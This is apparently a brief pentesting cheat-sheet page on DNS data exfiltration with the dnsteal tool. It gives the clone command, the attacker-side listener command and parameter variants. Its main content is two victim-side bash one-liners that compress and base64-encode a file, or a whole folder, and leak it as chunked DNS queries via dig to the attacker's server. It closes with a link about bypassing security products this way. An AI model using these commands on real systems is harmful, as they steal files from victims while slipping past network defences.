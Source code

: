 # ⭕ DNS

## <mark style="color:red;">dnsteal</mark>

{% embed url="https://github.com/m57/dnsteal.git" %}

```
git clone https://github.com/m57/dnsteal.git
```

#### attacker side:

```
python dnsteal.py 0.0.0.0 -z -v 
```

#### victim side

#### for one file transfer:

```
f=file.txt; s=4;b=57;c=0; for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig @0.0.0.0 `echo -ne $r$f|tr "+" "*"` +short; done
```

#### for a folder ( have to be in the folder you want to download and there should be no sub folders in it just files):

```
for f in $(ls .); do s=4;b=57;c=0; for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi; done ); do dig @0.0.0.0 `echo -ne $r$f|tr "+" "*"` +short; done ; done
```

This one would send 45 bytes per subdomain, of which there are 4 in the query. 15 bytes reserved for filename at the end.

```
python dnsteal.py 127.0.0.1 -z -v -b 45 -s 4 -f 15
```

This one would leave no space for filename.

```
python dnsteal.py 127.0.0.1 -z -v -b 63 -s 4 -f 0
```

{% embed url="https://resources.infosecinstitute.com/topic/bypassing-security-products-via-dns-data-exfiltration" %}
